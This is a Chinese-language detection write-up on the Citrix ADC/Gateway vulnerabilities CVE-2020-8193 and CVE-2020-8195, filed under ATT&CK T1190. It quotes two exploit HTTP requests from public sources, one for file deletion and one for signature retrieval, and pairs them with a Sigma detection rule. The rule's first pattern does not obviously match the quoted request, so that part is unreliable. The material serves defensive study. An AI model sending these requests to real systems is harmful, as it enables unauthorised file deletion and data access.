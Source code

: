 # T1190-CVE-2020-8193/CVE-2020-8195

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使对手获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

Citrix Systems Citrix Application Delivery Controller（ADC）等都是美国思杰系统（Citrix Systems）公司的产品。Citrix Application Delivery Controller是一款应用交付控制器。Citrix Systems Gateway（Citrix Systems NetScaler Gateway）是一套安全的远程接入解决方案。Citrix System SDWAN WAN-OP是一款SD-WAN（虚拟软件定义的广域网）设备。Citrix Systems Citrix ADC、Citrix Gateway和Citrix SDWAN WAN-OP中存在安全漏洞。攻击者可利用该漏洞绕过权限限制。

## 检测日志

HTTP.log

## 测试复现

漏洞利用方式建议参考：

Citrix Systems产品安全漏洞 CVE-2020-8193, CVE-2020-8195 and CVE-2020-8196 poc

<https://www.cnblogs.com/potatsoSec/p/13281577.html>

Citrix安全研究历险记

<https://blog.unauthorizedaccess.nl/2020/07/07/adventures-in-citrix-security-research.html>

## 测试留痕

暂无实测，截取部分公开资料内容作为留痕数据。

### 删除文件

```yml
POST /rapi/filedownload?filter=remove:1,path:%2ftmp%2ftest HTTP/1.1 
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/menu/neo
If-Modified-Since: Thu, 01 Jan 1970 05:30:00 GMT
rand_key: 2061490565.1580290269373855
DNT: 1
X-NITRO-USER: henk
X-NITRO-PASS: henk
Connection: close
Cookie: startupapp=neo; is_cisco_platform=0; st_splitter=350px; rdx_pagination_size=25%20Per%20Page; SESSID=05afba59ef8e0e35933f3bc266941337
Content-Type: application/xml
Content-Length: 31

<clipermission></clipermission>
```

以上内容截取自<https://www.cnblogs.com/potatsoSec/p/13281577.html>

### 获取默认所有签名

```yml
POST /pcidss/report?type=all_signatures&sid=254&username=nsroot&profile_name=default&set=0&sig_name=_default_signature_&sig_start_no=1 HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/pcidss/launch_report?type=main
Content-Type: application/xml
Content-Length: 0
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

以上内容截取自<https://blog.unauthorizedaccess.nl/2020/07/07/adventures-in-citrix-security-research.html>

## 检测规则/思路

### sigma规则

```yml
title: 检测可疑的CVE-2020-8193/CVE-2020-8195
references:
    - https://www.cnblogs.com/potatsoSec/p/13281577.html
    - https://research.nccgroup.com/2020/07/10/rift-citrix-adc-vulnerabilities-cve-2020-8193-cve-2020-8195-and-cve-2020-8196-intelligence/
status: experimental
date: 2020/07/10
tags:
    - attack.initial_access
    - attack.t1190
logsource:
    category: webserver
detection:
    selection1:
        c-uri|contains: 
            - '/rapi/filedownload?filter=path:%2F' #删除文件时POST请求，URL路径包含的字段。
    selection2:
        c-uri|contains|all:
            - '/pcidss/report' #获取所有默认签名时POST请求URL内包含的字段
            - 'type=all_signatures'
            - 'sig_name=_default_signature_'
    condition: 1 of them
fields:
    - client_ip
    - vhost
    - url
    - response
falsepositives:
    - Unknown
level: critical
```

### 建议

建议使用HTTP流量+安全设备进行检测分析，研判攻击是否成功。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>
